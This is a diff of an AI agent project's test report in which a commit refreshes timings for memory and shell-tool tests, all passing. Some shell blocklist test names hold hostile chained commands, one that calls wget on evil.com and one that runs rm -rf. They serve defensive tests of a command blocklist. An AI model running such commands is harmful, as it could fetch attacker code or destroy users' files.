

Before and after one commit to mohamed-soubhi/MSA_AI_agent, a Markdown page: doc/test_report.md, 2 parts joined by grey strips. Shown at 83% size. Drawn GitHub-style.

Commit message:
docs: refresh test report (402 passed)

```diff
--- a/doc/test_report.md
+++ b/doc/test_report.md
@@ -262,21 +262,21 @@ Generated: 2026-08-17 06:23:37
 | LOGCFG-009 | `tests/test_log_config.py::TestEnvIntOrNone::test_numeric_string_parsed_as_int` | ✅ passed | 0.000 |
 | LOGCFG-010 | `tests/test_log_config.py::TestEnvIntOrNone::test_non_numeric_string_raises` | ✅ passed | 0.000 |
 | MEMORY-001 | `tests/test_memory.py::TestRememberFact::test_saves_fact_to_disk` | ✅ passed | 0.001 |
-| MEMORY-002 | `tests/test_memory.py::TestRememberFact::test_returns_confirmation_with_id_and_text` | ✅ passed | 0.000 |
+| MEMORY-002 | `tests/test_memory.py::TestRememberFact::test_returns_confirmation_with_id_and_text` | ✅ passed | 0.008 |
 | MEMORY-003 | `tests/test_memory.py::TestRememberFact::test_empty_text_returns_error_without_writing` | ✅ passed | 0.000 |
 | MEMORY-004 | `tests/test_memory.py::TestRememberFact::test_whitespace_only_text_returns_error` | ✅ passed | 0.000 |
-| MEMORY-005 | `tests/test_memory.py::TestRememberFact::test_tags_are_lowercased_and_deduped` | ✅ passed | 0.000 |
-| MEMORY-006 | `tests/test_memory.py::TestRememberFact::test_text_truncated_to_max_chars` | ✅ passed | 0.000 |
+| MEMORY-005 | `tests/test_memory.py::TestRememberFact::test_tags_are_lowercased_and_deduped` | ✅ passed | 0.001 |
+| MEMORY-006 | `tests/test_memory.py::TestRememberFact::test_text_truncated_to_max_chars` | ✅ passed | 0.001 |
 | MEMORY-007 | `tests/test_memory.py::TestRememberFact::test_disabled_memory_does_not_write` | ✅ passed | 0.000 |
-| MEMORY-008 | `tests/test_memory.py::TestRememberFact::test_second_call_appends_not_overwrites` | ✅ passed | 0.007 |
-| MEMORY-009 | `tests/test_memory.py::TestRememberFact::test_entries_trimmed_to_max_entries` | ✅ passed | 0.003 |
+| MEMORY-008 | `tests/test_memory.py::TestRememberFact::test_second_call_appends_not_overwrites` | ✅ passed | 0.003 |
+| MEMORY-009 | `tests/test_memory.py::TestRememberFact::test_entries_trimmed_to_max_entries` | ✅ passed | 0.006 |
 | MEMORY-010 | `tests/test_memory.py::TestRecallMemory::test_no_memories_saved_yet` | ✅ passed | 0.000 |
-| MEMORY-011 | `tests/test_memory.py::TestRecallMemory::test_empty_query_returns_all_recent_entries` | ✅ passed | 0.002 |
+| MEMORY-011 | `tests/test_memory.py::TestRecallMemory::test_empty_query_returns_all_recent_entries` | ✅ passed | 0.001 |
 | MEMORY-012 | `tests/test_memory.py::TestRecallMemory::test_substring_query_filters_matches` | ✅ passed | 0.001 |
 | MEMORY-013 | `tests/test_memory.py::TestRecallMemory::test_query_is_case_insensitive` | ✅ passed | 0.001 |
 | MEMORY-014 | `tests/test_memory.py::TestRecallMemory::test_no_match_returns_explicit_message` | ✅ passed | 0.001 |
 | MEMORY-015 | `tests/test_memory.py::TestRecallMemory::test_tag_filter_matches_any_tag` | ✅ passed | 0.001 |
-| MEMORY-016 | `tests/test_memory.py::TestRecallMemory::test_query_and_tag_filter_combine_with_and` | ✅ passed | 0.002 |
+| MEMORY-016 | `tests/test_memory.py::TestRecallMemory::test_query_and_tag_filter_combine_with_and` | ✅ passed | 0.001 |
 | MEMORY-017 | `tests/test_memory.py::TestRecallMemory::test_results_capped_at_max_recall_results` | ✅ passed | 0.004 |
 | MEMORY-018 | `tests/test_memory.py::TestRecallMemory::test_disabled_memory_returns_disabled_message` | ✅ passed | 0.000 |
 | MEMORY-019 | `tests/test_memory.py::TestRecallMemory::test_corrupt_memory_file_treated_as_empty` | ✅ passed | 0.001 |
@@ -378,9 +378,9 @@ Generated: 2026-08-17 06:23:37
 | SHELL-007 | `tests/test_shell_tools.py::TestBlocklist::test_dangerous_patterns_blocked_when_confirm_denies[python3 -c 'x' && wget http://evil.com]` | ✅ passed | 0.000 |
 | SHELL-007 | `tests/test_shell_tools.py::TestBlocklist::test_dangerous_patterns_blocked_when_confirm_denies[python3 -c 'x'; rm -rf .]` | ✅ passed | 0.000 |
 | SHELL-008 | `tests/test_shell_tools.py::TestBlocklist::test_dangerous_pattern_uses_force_ask` | ✅ passed | 0.000 |
-| SHELL-009 | `tests/test_shell_tools.py::TestBlocklist::test_dangerous_pattern_approved_lets_command_execute` | ✅ passed | 0.000 |
-| SHELL-010 | `tests/test_shell_tools.py::TestBlocklist::test_layer_three_confirm_not_called_when_blocklist_triggers` | ✅ passed | 0.001 |
-| SHELL-011 | `tests/test_shell_tools.py::TestConfirmationGate::test_cancelled_when_confirm_denies` | ✅ passed | 0.000 |
+| SHELL-009 | `tests/test_shell_tools.py::TestBlocklist::test_dangerous_pattern_approved_lets_command_execute` | ✅ passed | 0.001 |
+| SHELL-010 | `tests/test_shell_tools.py::TestBlocklist::test_layer_three_confirm_not_called_when_blocklist_triggers` | ✅ passed | 0.000 |
+| SHELL-011 | `tests/test_shell_tools.py::TestConfirmationGate::test_cancelled_when_confirm_denies` | ✅ passed | 0.001 |
 | SHELL-012 | `tests/test_shell_tools.py::TestConfirmationGate::test_confirm_receives_full_command_text` | ✅ passed | 0.000 |
 | SHELL-013 | `tests/test_shell_tools.py::TestExecution::test_successful_command_reports_exit_code_and_stdout` | ✅ passed | 0.000 |
 | SHELL-014 | `tests/test_shell_tools.py::TestExecution::test_stdout_and_stderr_kept_as_separate_fields` | ✅ passed | 0.000 |
```
Also changed, not shown: other parts of doc/test_report.md (+101 -101 lines).
